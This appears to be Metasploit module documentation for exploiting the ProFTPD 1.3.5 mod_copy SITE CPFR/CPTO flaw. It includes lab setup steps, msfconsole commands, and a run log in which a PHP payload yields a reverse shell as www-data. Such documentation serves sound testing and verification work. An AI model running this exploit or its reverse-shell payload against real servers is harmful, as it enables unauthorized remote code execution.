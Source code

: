 ## Vulnerable Application

This module exploits the SITE CPFR/CPTO mod_copy commands in ProFTPD version 1.3.5.
Any unauthenticated client can leverage these commands to copy files from any
part of the filesystem to a chosen destination. The copy commands are executed with
the rights of the ProFTPD service, which by default runs under the privileges of the
'nobody' user. By using /proc/self/cmdline to copy a PHP payload to the website
directory, PHP remote code execution is made possible.


## Installation Steps

Download and build:

```sh
sudo apt install gcc make
wget ftp://ftp.proftpd.org/distrib/source/proftpd-1.3.5.tar.gz
tar zxvf proftpd-1.3.5.tar.gz
cd proftpd-1.3.5
./configure --with-modules=mod_copy
make
```

Run ProFTPD using the sample default configuration file (in foreground with `-n` flag for testing):

```
sudo ./proftpd -n -c "`pwd`/sample-configurations/basic.conf"
```

Set up a web server with a world-writable directory:

```
sudo apt install php apache2
sudo mkdir /home/var/www/html/test
sudo chmod 777 /var/www/html/test
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/unix/ftp/proftpd_modcopy_exec`
1. Do: `set rhosts <rhosts>`
1. Do: `set rport_ftp <remote ftp port>`
1. Do: `set tmppath <writable temporary file path>`
1. Do: `set sitepath <writable web server file path>`
1. Do: `run`
1. You should get a new session.

## Options

### RPORT_FTP

FTP port (default: `21`)

### TMPPATH

Absolute writable path (default: `/tmp`)

### SITEPATH

Absolute writable website path (default: `/var/www`)


## Scenarios

### ProFTPD 1.3.5 on Ubuntu 22.04

```
msf6 > use exploit/unix/ftp/proftpd_modcopy_exec
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set rhosts 192.168.200.158
rhosts => 192.168.200.158
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > check
[*] 192.168.200.158:80 - The target appears to be vulnerable. 192.168.200.158:21 - Unauthenticated SITE CPFR command was successful
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set sitepath /var/www/html/test
sitepath => /var/www/html/test
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set targeturi /test
targeturi => /test
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set payload cmd/unix/reverse_perl
payload => cmd/unix/reverse_perl
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > run

[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] 192.168.200.158:80 - 192.168.200.158:21 - Connected to FTP server
[*] 192.168.200.158:80 - 192.168.200.158:21 - Sending copy commands to FTP server
[*] 192.168.200.158:80 - Executing PHP payload /test/EbzQzU.php
[+] 192.168.200.158:80 - Deleted /var/www/html/test/EbzQzU.php
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.158:46352) at 2023-03-19 00:22:49 -0400

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd
/var/www/html/test
```
